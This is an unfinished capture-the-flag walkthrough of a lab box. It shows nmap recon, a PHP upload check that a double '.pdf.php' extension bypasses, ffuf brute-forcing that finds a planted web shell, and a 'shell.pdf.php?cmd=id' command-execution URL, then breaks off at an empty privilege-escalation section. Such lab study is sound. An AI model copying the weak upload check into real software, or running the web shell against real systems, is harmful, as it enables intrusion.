




## TL;DR


### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh and port `80` with apache http server.
```bash
PORT   STATE SERVICE REASON         VERSION                                                                                                      
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)                                                 
| ssh-hostkey: 
|   3072 9f:a6:01:53:92:3a:1d:ba:d7:18:18:5c:0d:8e:92:2c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDEwViZRbXUs9kag3j00D1FtRrtg3PKTSXGdTaJC14E+FWVLUKxlCTbI89GtFCqL22nDVi3nmG5QQDxEfl4zTOIgZXi4FXst0ZfzMayH8T+t9jSc2OlCuIyZYyw+JDP2G+WJXHC67BSthXTt9eMeDPxi7r03GA0nqMSFJ8lw5FqTnzyacLne5ojiB/atnHpVXa0DoSmT+w8t1Pk3nhnk0zrlOxVOfkx8Jze8NHynP4BFr/Ea3PNvvmJ2hpRUgO3IGVQ3bt55ab3ZoFy344Fy5ISsYXYQJBeLUhu2GVeCihzgUFkecKZEUhnc0S8Idy5EnDWeEaRQjE832gKvUJ9d0PIEN8sTxgSEp1RcijMm8/2vEWzeRVAKaHCaU8lV/jbtyl6s5jgkStuy6NwqpWf24D0TydU5jwsjGTLWJbrDNsYbP28qas0o2+zwmzqwaOJMwuk0CYVZCcd2qGVRRxYu6NhfIudRPMLPp/EvhfEUPoYR6tmX42pvpqNH70kotCiQiM=
|   256 4b:60:dc:fb:92:a8:6f:fc:74:53:64:c1:8c:bd:de:7c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMZXOzdGFYNrQPBrILKG3Zd+DlWWE133ONnKOGm3MhuTgWZjEkYI1g5pn6ggVCnJwZHgvkvjSudcCImNk92yW7g=
|   256 83:d4:9c:d0:90:36:ce:83:f7:c7:53:30:28:df:c3:d5 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEznWyrDbdSTIAxhoKlcRP8mZ/LX/wQSAvofU1MLracp
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: RecruitSec: Industry Leading Infosec Recruitment
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-favicon: Unknown favicon MD5: DD1493059959BA895A46C026C39C36EF
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


### ...

First, I visited the main page:


We can see some box for CV uploading, I tried to upload any file, and faced this page:



okay, the hacker has already been here. That's what I found at the source code:
```html
<!-- seriously, dumb stuff:

$target_dir = "cvs/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);

if (!strpos($target_file, ".pdf")) {
  echo "Only PDF CVs are accepted.";
} else if (file_exists($target_file)) {
  echo "This CV has already been uploaded!";
} else if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
  echo "Success! We will get back to you.";
} else {
  echo "Something went wrong :|";
}

-->
```

I'm thinking. If i was the hacker, I guess I would have upload file like `webshell.pdf.php` or something, and by this way bypass the check. The file would be saved at `cvs/`.

Let's try brute force with the dictionary `/usr/share/SecLists/Discovery/Web-Content/common.txt`, if it won't work, we'll look for list of common names for web shells.
```bash
┌──(agonen㉿kali)-[~/thm/HackervsHacker]
└─$ ffuf -u 'http://hackervshacker.thm/cvs/FUZZ.pdf.php' -w /usr/share/SecLists/Discovery/Web-Content/common.txt -fc 403    

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://hackervshacker.thm/cvs/FUZZ.pdf.php
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

shell                   [Status: 200, Size: 18, Words: 1, Lines: 2, Duration: 169ms]
:: Progress: [4750/4750] :: Job [1/1] :: 260 req/sec :: Duration: [0:00:22] :: Errors: 0 ::
```

It worked, we found `shell`, full URL will be (I added cmd=id, that's what usably ~hackers~ (CTF players) do):
```bash
http://hackervshacker.thm/cvs/shell.pdf.php?cmd=id
```



Let's paste the penelope payload:



we got reverse shell but immediately disconnected.

### Privilege Escalation to Root


